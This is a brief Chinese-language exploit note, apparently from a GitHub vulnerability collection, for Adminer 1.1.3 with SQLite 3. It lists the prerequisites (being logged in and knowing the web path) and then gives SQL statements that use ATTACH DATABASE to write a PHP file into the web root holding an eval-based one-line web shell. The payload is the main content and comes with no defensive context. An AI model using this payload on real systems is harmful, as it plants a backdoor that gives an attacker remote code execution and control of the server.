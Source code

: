 ## Adminers 1.1.3 （SQLite 3 写入一句话木马）

### 漏洞简介

需要登陆Adminers，并且需要知道网站的路径。

### 复现过程

```
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('<?php eval($_POST[a])?>');/*
```